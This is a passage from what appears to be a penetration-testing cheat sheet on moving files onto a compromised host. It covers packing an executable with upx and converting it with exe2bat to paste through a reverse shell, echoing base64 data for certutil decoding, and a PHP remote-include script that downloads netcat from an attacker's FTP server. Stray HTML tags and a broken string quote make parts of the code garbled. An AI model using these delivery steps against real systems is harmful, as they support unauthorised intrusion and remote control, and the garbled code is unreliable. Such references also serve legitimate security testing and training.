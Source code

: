 This method has size limitations. It will only work with 64k or smaller
files.

```
# First use upx to pack the file to make it smaller
upx -9 &lt;originalPE&gt;
# Use exe2bat.exe to convert the file to a BAT file format
wine exe2bat.exe <strong>&lt;originalPE&gt;</strong> <strong>&lt;destination&gt;</strong>
# Copy and paste the contents of the destination file to your reverse shell</p></td>
```

#### <span id="anchor-60"></span>Copy Command (Share Access)

```
copy \\\\**&lt;source&gt;** **&lt;destination&gt;**
```

#### <span id="anchor-61"></span>Echo Command (Share Access)

```
echo “**&lt;base64 encoded data&gt;**” &gt;&gt; **&lt;destination&gt;**
```

**Note**: By base64 encoding the file you will turn it into plain text
that can be echoed to the remote system. It can then be decoded using
the **certutil.exe** command.

#### <span id="anchor-62"></span>PHP Remote Include FTP Download Script

```
&lt;?php
     // set up basic connection
   $conn_id = ftp_connect("<strong>&lt;ftp_server_address&gt;</strong>");
   // login with username and password
   $login_result = ftp_login($conn_id, "anonymous", "foo@bar.com");
   // check connection
     if ((!$conn_id) || (!$login_result)) {
        echo "Ftp connection has failed!";
        echo "Attempted to connect to $ftp_server for user $user";
        die;
   } else { 
          echo "Connected";
   }
   // upload the file
   $upload = ftp_get($conn_id, "<strong>&lt;writable_path&gt;</strong>, "nc", FTP_BINARY);
  echo $upload;
  // close the FTP stream
  ftp_quit($conn_id);
?&gt;</p></td>
```

### <span id="anchor-63"></span>Tunneling
